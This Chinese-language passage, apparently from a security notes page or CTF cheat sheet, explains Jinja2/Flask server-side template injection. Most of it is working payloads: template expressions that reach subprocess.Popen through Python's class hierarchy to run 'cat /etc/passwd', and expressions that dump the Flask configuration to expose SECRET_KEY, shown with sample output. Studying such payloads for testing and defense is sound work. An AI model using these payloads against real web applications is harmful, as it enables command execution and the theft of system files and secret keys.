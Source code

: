 ```text
{{''.__class__.mro()[1].__subclasses__()[233]("cat /etc/passwd", shell=True, stdout=-1).communicate()[0]}} 
{{''.__class__.mro()[1].__subclasses__()[233](['cat', "/etc/passwd"], stdout=-1).communicate()[0]}}
```

[subprocess.Popen 构造方法参数](https://docs.python.org/3/library/subprocess.html#popen-constructor)为什么这样写？下面解读下。

*args* 默认读取列表，命令以空格作为分隔符，比如 `cat /etc/passwd /etc/shadow`，就要写成 `['cat', '/etc/passwd', '/etc/shadow']`。

*shell* 使用 `shell=True` 可直接在引号内写命令。Linux 下默认使用 /bin/sh 执行命令，Windows 怎么执行不太清楚。

```text
Popen(['/bin/sh', '-c', 'cat /etc/passwd'])
```

*stdout* 具体为什么用 -1 暂时无法得知，不用就无法输出数据。

#### 读取 Flask 配置

如果无法读取文件尝试看看能不能获取 Flask 配置信息

```text
{{config}}
{{self.__dict__}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

重点关注配置中 SECRET_KEY 项。

```text
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'SESSION_REFRESH_EACH_REQUEST': True, 'LOGGER_HANDLER_POLICY': 'always', 'LOGGER_NAME': 'app', 'DEBUG': False, 'SECRET_KEY': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
```

#### self 对象获取

#### 其他 Payload

```
{{[].__class__.__base__.__subclasses__()}}
>>> import jinja2
>>> jinja2.Template("{{ [].__class__.__base__.__subclasses__() }}").render()
"[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_rever......
```
